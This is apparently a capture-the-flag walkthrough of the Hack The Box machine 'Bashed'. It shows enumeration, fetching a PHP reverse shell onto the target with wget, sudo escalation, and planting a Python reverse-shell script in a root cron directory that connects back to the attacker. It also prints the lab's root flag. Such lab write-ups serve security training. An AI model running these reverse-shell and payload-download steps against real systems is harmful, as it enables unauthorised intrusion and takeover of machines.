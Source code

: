 ```yaml
---
cover: ../../.gitbook/assets/Bashed.png
coverY: 249.05599999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bashed

Add IP address to local DNS

```sh
[attacker] echo '10.129.235.166 bashed.htb'|sudo tee -a /etc/hosts
```

Nmap scan

```sh
[user@attacker] nmap bashed.htb
```

Open port 80/TCP with HTTP service.\
WFuzz web enumeration

```sh
[user@attacker] wfuzz -u http://bashed.htb/FUZZ -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404
```

Available paths :

* http://bashed.htb/css
* http://bashed.htb/dev
* http://bashed.htb/images
* http://bashed.htb/js
* http://bashed.htb/php
* http://bashed.htb/uploads

I find a web shell on http://bashed.htb/php/dev/phpbash.php\
Import php reverse shell file.

```sh
[user@attacker] cp /usr/share/webshells/php/php-reverse-shell.php payload.php
```

Edit the `payload.php` with attacker host and netcat post listener.

<figure><img src="../../.gitbook/assets/bashed-php-reverse-shell-script.png" alt=""><figcaption></figcaption></figure>

On the attacker, start a Python web server

```sh
[user@attacker] python3 -m http.server
```

On the target, download the file `payload.php`

```sh
[www-data@target] wget -O payload.php http://10.10.14.81:8000/payload.php
```

From the attacker, start the netcat listener

```sh
[user@attacker] nc -lnvp 1234
```

Then go to the website and execute http://bashed.htb/uploads/payload.php\
Got the reverse shell on target.\
List sudo privileges.

```sh
[www-data@target] sudo -l
```

`www-data` can run all sudo command as `scriptmanager`

```sh
[www-data@target] sudo -u scriptmanager '/bin/bash'
[scriptmanager@target] cat /home/arrexel/user.txt
```

The file `test.txt` has a cron because somethin is updating its timestamp every minute.

<figure><img src="../../.gitbook/assets/bashed-cron-52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bashed-cron-53.png" alt=""><figcaption></figcaption></figure>

Code inside of the file `test.py`

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Text inside of the file `test.txt`

```
testing 123!
```

Thus, only root can write in `test.txt` and it has root cron which executes `test.py` every minute.\
Add a new python file in the same directory `/scripts/write.py` which contains the following code

```sh
[scriptmanager@target] echo 'import sys,socket,os,pty
s=socket.socket()
s.connect(("10.10.14.81", 1235))
[os.dup2(s.fileno(),fd) for fd in(0,1,2)]
pty.spawn("sh")'|tee /scripts/write.py
```

Open the netcat listener

```sh
[user@attacker] nc -lnvp 1235
```

After 1 minut, it opens a root shell

```sh
[root@target] cat /root/root.txt	# 204827fc65f65b3c967b7c38298d6382
```
